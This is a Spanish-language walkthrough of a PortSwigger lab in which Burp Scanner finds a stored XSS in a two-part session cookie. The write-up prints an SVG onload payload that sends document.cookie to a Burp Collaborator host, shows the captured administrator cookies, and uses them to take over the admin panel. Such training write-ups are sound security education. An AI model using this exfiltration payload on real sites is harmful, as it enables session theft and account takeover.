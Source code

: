 ```yaml
---
title: "Scanning non-standard data structures"
date: 2024-12-08 12:26:00 +0800
lang: es-ES
author: Justice-Reaper
categories:
  - Portswigger
  - Essential Skills
tags:
  - Essential Skills
  - Scanning non-standard data structures
image:
  path: /assets/img/Portswigger/Portswigger.png
---
```


## Certificaciones

- eWPT
- eWPTXv2
- OSWE
- BSCP
  
## Descripción

Este `laboratorio` contiene una `vulnerabilidad` que es difícil de encontrar `manualmente`. Se encuentra en una `estructura de datos no estándar`. Para `resolver` el laboratorio, debemos usar la función `Scan selected insertion point` de `Burp Scanner` para identificar la `vulnerabilidad`, luego `explotarla` manualmente y eliminar al `usuario carlos`. Podemos `iniciar sesión` en nuestra propia cuenta utilizando las credenciales `wiener:peter`

---

## Resolución

Al `acceder` a la `web` nos sale esto

![](/assets/img/Essential-Skills-Lab-2/image_1.png)

Pulsamos en `My account` y nos `logueamos` con las credenciales `wiener:peter`

![](/assets/img/Essential-Skills-Lab-2/image_2.png)

`Recargamos` con `F5` y `capturamos` la `petición` con `Burpsuite`

![](/assets/img/Essential-Skills-Lab-2/image_3.png)

El `formato` de la `cookie` es bastante `extraño`

```
session=wiener:zqEeGuTsB0x4zgTkv5Pl3BDpMbM4KYDL
```

Si la `estructura` de `datos` fuera `estándar`, es decir que tuviera `un solo campo` podríamos `marcar todo el dato` de forma `completa` de esta manera

```
session=zqEeGuTsB0x4zgTkv5Pl3BDpMbM4KYDL
```

![](/assets/img/Essential-Skills-Lab-2/image_4.png)

Sin embargo, en este caso, parece que se trata de dos `estructuras de datos` diferentes. Por ello, no tendría sentido manejarlo de esta manera, ya que `Burp Suite` enviaría un único `payload` para toda la `estructura`. En estos casos, o cuando trabajamos con un `JSON`, lo mejor es `enviar` la `petición` al `Intruder`, establecer `puntos de inserción` (insertion points) en cada `dato` y escanear los valores de manera `independiente` y no como un `único bloque`. Cuando se abra la nueva `ventana` en `Burp Intruder`, debemos pulsar en `OK` y comenzará el `escaneo`

![](/assets/img/Essential-Skills-Lab-2/image_5.png)

Si nos vamos a `Dashboard` veremos que nos ha `detectado` un `XSS`, aunque ponga `audit finished` necesitaremos `esperar` un poco `más` de `tiempo` para que nos `muestre` lo que ha `encontrado`

![](/assets/img/Essential-Skills-Lab-2/image_6.png)

Este es el `payload` que vamos a usar ahora para `obtener` la `cookie`, debemos usar `Burpsuite Collaborator` para que nos mande ahí las `peticiones`

```
Cookie: session='"><svg/onload=fetch(`//ird4jrrnt2mjjytc1bdncj4v8mee24qt.oastify.com/${encodeURIComponent(document.cookie)}`)>:gzUjX1PEjSeUz0hi59YqWXwVpEiCHt9x
```

Para `encodear` el `payload` de la misma forma en la que está, debemos usar el `inspector` de `Burpsuite`, el cual se `encargará` de `encodearlo` de la misma forma en la que está el anterior

![](/assets/img/Essential-Skills-Lab-2/image_7.png)

Una vez `enviada` la `petición`, nos llega esto a `Burpsuite Collaborator`

![](/assets/img/Essential-Skills-Lab-2/image_8.png)

El `inspector` de `Burpsuite` lo `decodea` por nosotros y vemos que estas son las `cookies` del usuario `administrator`

![](/assets/img/Essential-Skills-Lab-2/image_9.png)

```
/session=administrator:iwnc8XhMT4HzCj2ScdD2qDuwKRG7AJhD; secret=jPNSk5gKjLbTQaTMWbYl81pU2rTtXufm; session=administrator:iwnc8XhMT4HzCj2ScdD2qDuwKRG7AJhD
```

Nos vamos al navegador y pulsamos `Ctrl + Shift + i` y vemos que tenemos varios `campos` de `cookies`

![](/assets/img/Essential-Skills-Lab-2/image_10.png)

`Sustituimos` los `campos` de `cookies` y pulsamos `F5` para `refrescar` la `web`

![](/assets/img/Essential-Skills-Lab-2/image_11.png)

Ya tenemos `acceso` al `panel` de `administrador` y podemos `eliminar` al usuario `carlos`

![](/assets/img/Essential-Skills-Lab-2/image_12.png)

Vemos que hay una parte llamada `View Logs`, aquí es donde se ha producido el `XSS` debido a que el usuario `administrator` se encontraba `revisándolo`

![](/assets/img/Essential-Skills-Lab-2/image_13.png)
